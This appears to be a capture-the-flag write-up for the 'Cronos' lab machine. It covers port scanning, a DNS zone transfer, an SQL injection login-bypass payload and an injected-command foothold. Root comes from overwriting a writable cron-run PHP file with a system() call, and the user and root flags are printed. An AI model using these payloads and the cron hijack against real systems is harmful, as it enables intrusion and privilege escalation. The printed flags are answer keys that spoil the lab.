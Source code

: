 # Cronos

## Overview

This was a fairly easy box. An SQL injection bug leads to command injection. And from that, I owned the root by taking advantage of insecurely configured cronjob.

![Cronos.png](uploads/Cronos.png)

**Name -** Cronos

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### Port Scan

Basic Scan

```bash
╭╴root @ …/c/Users/SiliconBits
╰─ nmap 10.129.74.154
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 00:22 +06
Nmap scan report for 10.129.74.154
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
```

Service Scan

```bash
╰─ nmap 10.129.74.154 -sC -sV -p22,53,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 00:25 +06
Nmap scan report for 10.129.74.154
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.80 seconds
```

### DNS Enumeration

As the DNS port is open, I ran some check on DNS port and found the following subdomain

```bash
╭╴root @ …/c/Users/SiliconBits
╰─ dig axfr cronos.htb @cronos.htb

; <<>> DiG 9.18.12-1-Debian <<>> axfr cronos.htb @cronos.htb
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 220 msec
;; SERVER: 10.129.74.154#53(cronos.htb) (TCP)
;; WHEN: Fri Jun 02 00:28:56 +06 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

### **HTTP Enumeration**

So, We have total thee domains/subdomains to test.

1. cronos.htb
2. admin.cronos.htb
3. ns1.cronos.htb

The first one and last one doesn’t contain anything interesting. But the 2nd one has a login panel

![Untitled](uploads/Untitled.png)

This page contains simple sql injection. the following simple payload on the username field bypasses the login

```
username = admin' or 1=1-- -
password = admin' or 1=1-- -
```

![Untitled](uploads/Untitled%201.png)

## Initial Foothold

This webpage contains basic command injection.

![Untitled](uploads/Untitled%202.png)

From this I managed to get a reverse shell

![Untitled](uploads/Untitled%203.png)

## Getting User.txt

Getting user flag was simple from here

![Untitled](uploads/Untitled%204.png)

User Flag - da8deb6bcc461bb19f92bf1b0521e659

## Getting root.txt

I found something in the cronjob.

![Untitled](uploads/Untitled%205.png)

So, It is running artisan file from /var/www/laravel directory in every minute. and that artisan file is writeable.

![Untitled](uploads/Untitled%206.png)

So, I changed it to the following

```bash
www-data@cronos:/var/www/laravel$ echo "<?php system('cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt'); ?>" > artisan
<'cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt'); ?>" > artisan
```

And after waiting a minute, I found the root flag

![Untitled](uploads/Untitled%207.png)

Root Flag - a78a4247a63ee7847b82690b9b6d8cf8

## Flags

**user.txt -** da8deb6bcc461bb19f92bf1b0521e659

**root.txt -** a78a4247a63ee7847b82690b9b6d8cf8
